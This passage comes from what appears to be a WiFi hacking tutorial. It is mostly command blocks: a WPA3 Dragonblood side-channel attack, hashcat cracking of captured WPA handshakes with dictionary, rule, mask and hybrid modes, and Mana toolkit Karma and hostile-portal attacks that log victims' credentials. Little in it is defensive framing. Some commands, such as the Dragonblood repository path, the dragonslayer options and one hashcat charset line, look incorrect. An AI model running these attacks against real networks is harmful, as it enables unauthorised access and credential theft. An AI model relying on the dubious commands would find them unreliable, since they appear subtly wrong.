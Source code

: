 **WPA3 Dragonblood Attack:**
```bash
# Clone Dragonblood repository
git clone https://github.com/dragonblood/dragonblood.git
cd dragonblood

# Execute side-channel attack
sudo ./dragonslayer -i wlan0mon -m sae_side_channel -e "WPA3-Network" -b 00:11:22:33:44:55
```

### Practical Hashcat Integration for WiFi Cracking

```bash
# Convert airodump-ng capture to hashcat format
cap2hccapx wpa_capture-01.cap output.hccapx

# Check capture file validity
hashcat -m 2500 output.hccapx --show

# Basic dictionary attack
hashcat -m 2500 output.hccapx wordlist.txt

# Rule-based attack
hashcat -m 2500 output.hccapx wordlist.txt -r /usr/share/hashcat/rules/best64.rule

# Mask attack for WPA format (8 characters minimum)
hashcat -m 2500 output.hccapx -a 3 ?l?l?l?l?l?l?l?l
```

**Advanced Hashcat Options for WiFi:**
```bash
# Brute force common patterns
hashcat -m 2500 output.hccapx -a 3 CompanyName?d?d?d?d

# Target specific ESSIDs with masks
hashcat -m 2500 output.hccapx -a 3 --custom-charset1=12345 -1 ?1?1?1?1?1?1?1?1

# Hybrid attacks combining wordlist + mask
hashcat -m 2500 output.hccapx -a 6 wordlist.txt ?d?d?d?d
```

## Wireless Client Attacks

Beyond targeting access points, attacking wireless clients directly can be highly effective.

### Karma Attacks with Mana Toolkit

```bash
# Start Mana in Karma mode
sudo start-noupstream.sh

# Start hostile portal
sudo start-nat-simple.sh

# Full attack with credentials logging
sudo start-nat-full.sh
```
